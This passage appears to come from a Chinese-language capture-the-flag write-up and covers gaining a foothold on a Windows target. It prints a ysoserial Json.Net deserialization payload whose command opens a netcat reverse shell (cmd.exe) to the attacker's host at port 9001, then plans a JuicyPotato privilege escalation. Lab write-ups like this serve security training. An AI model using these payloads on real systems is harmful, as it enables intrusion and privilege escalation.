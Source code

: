 在我的简单 HTTP 服务器上，我收到一个请求:

![](img/f9d121b2b4c8f4e4d7c840af7e9cf373.png)

现在，我生成一个有效负载，它将连接到我的反向 shell:

```
ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "C:/Windows/System32/spool/drivers/color/nc.exe 10.10.14.81 9001 -e cmd.exe"
```

在我的监听器上，我得到一个 json 形式的 shell。

![](img/96bb537ab7838000111eb5dc1f6f0028.png)

运行 whoami /all，我可以看到 SeImpersonatePrivilege 已启用。也就是说我以后可以试着用 JuicyPotato。

![](img/8104412693ba9e51823529d16cdf845b.png)![](img/30c710ce8a291b4a6b3ced3e495efb55.png)

